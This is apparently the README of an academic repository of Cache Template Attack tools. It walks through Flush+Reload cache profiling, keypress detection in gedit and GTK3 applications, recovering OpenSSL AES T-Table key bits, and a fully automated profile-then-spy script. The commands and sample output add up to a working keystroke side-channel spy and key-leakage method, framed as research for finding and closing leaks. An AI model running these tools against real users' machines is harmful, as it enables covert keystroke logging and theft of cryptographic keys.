 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://eprint.iacr.org/2013/448.pdf)" (2014).

The "[Cache Template Attacks]()" paper by Gruss, Spreitzer and Mangard will be published soon.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).

**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Automated keypress profiling
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

Run the following commands to find keypress information leakage in a program (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling/linux_low_frequency_example
make
./spy.sh 5 200 gedit # in our example we profile keypresses in gedit
```
The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

## In detail: Keypresses (with libxdotool)
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
On Linux, run the following lines:
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
On Windows with MSYS/MinGW, run the following lines:
```
cd profiling/windows_low_frequency_example
mingw32-make
echo "switch to notepad window"
sleep 5; ./spy 200 C:\Windows\System32\notepad.exe > notepad.csv
```

The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).
This spy tool can also be used on Windows just like that.

## In detail: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. In the previous example we used libxdotool for this purpose.

On Windows or OSX you might not have procfs to retrieve the shared library mappings.
However, on Windows there is vmmap which gives you the same information and on OSX you can use at least ldd and scan the binary itself. Therefore, we execute the generic example tool similar as before:
```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

## OpenSSL AES T-Table attack
This example requires a self-compiled OpenSSL library to enable it's T-Table-based AES implementation.
Place libcrypto.so in the same folder and make sure the program actually uses it as a shared library.
Then run
```
cd profiling/aes_example
make
./spy
```
The T-Table is easily locatable in the log file as there are only 64 addresses which are frequently accessed, but not always accessed.
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the exploitation phase the spy tool has to trigger encryptions itself with an unknown key and can then trivially determine the upper 4 bits of each key byte after about 64 encryptions.

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 

## Fully automated attack
In this example we will run a script which will automatically execute the profiling phase as described before and then switch to the multi_spy exploitation tool as soon as a result is available.

Then run
```
cd exploitation/multi_spy
make
cd ../../profiling/linux_low_frequency_automated
./spy.sh 5 200 /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
The spy tool should switch into exploitation mode after profiling is completed. The result of the profiling phase is printed on the screen, for instance:
```
Events per address:
 0x85d00:q
 0x85d40:q
 0x85d80:ghijklnqtuvwz
 0x85dc0:iuzn
 0x85e00:iznuj
 0x85e40:inzu
 0x85e80:n
 0x85ec0:n
```

That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.

